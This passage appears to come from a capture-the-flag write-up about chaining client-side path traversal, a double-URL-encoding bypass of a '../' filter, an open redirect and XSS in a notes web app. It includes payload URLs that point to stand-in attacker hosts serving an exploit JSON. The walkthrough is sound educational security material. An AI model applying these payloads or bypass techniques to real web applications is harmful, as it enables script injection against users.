 ```
/^[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}$/i
```

So we can do CSPT to the /contact endpoint like this.

```
/view?note=../../../contact?return=http://attack&82652102-973d-429d-82e0-245a4fbfd6cb
```

However ../ was still **blocked !!!**
### Bypassing the Path traversal check

Upon looking closer, you can see that after the noteId is being checked, it is URL-decoded within the fetch function.

```js 
if (noteId.includes("../")) {
            showFlashMessage("Input not allowed!", "danger");
            return;
        }
        fetch("/api/notes/fetch/" + decodeURIComponent(noteId), {
            method: "GET",
            headers: {
                "X-CSRFToken": csrf_token,
            },
        })
```
So we can easily bypass this check by just double urlencoding the noteId.
```
view=..%252F..%252F..%252Fcontact?return=http://attacker&UUID
```
So during the **noteId.includes("../")** check, the noteId will be **..%2F..%2Fcontact**, so the check will return **false**. However, when fetch() is called, noteId gets URL-decoded with decodeURIComponent(noteId), turning it into **../../../contact**.

## 🚀  Final Payloads

Now that we've bypassed both security checks, let's combine everything together.

* **Regex Bypass**: By using ../../../ as a prefix to the UUID, we can bypass the regex validation.
* **Path Traversal Check Bypass**: Double URL encoding the payload allows us to bypass the path traversal check.

With these steps, we can direct the fetch request to /contacts, which will **trigger an Open Redirect to our attacker's server**. The server responds with JSON containing a debug key with the XSS payload. This payload is then inserted into the outerHTML, leading to XSS.


```
..%252F..%252F..%252Fcontact?return=https://attacker/exp.json%26e447f4e1-f7c9-439c-8378-b65b83189b60
```

On the attacker’s server, we need to return a JSON object with the key debug and our XSS payload as the value.
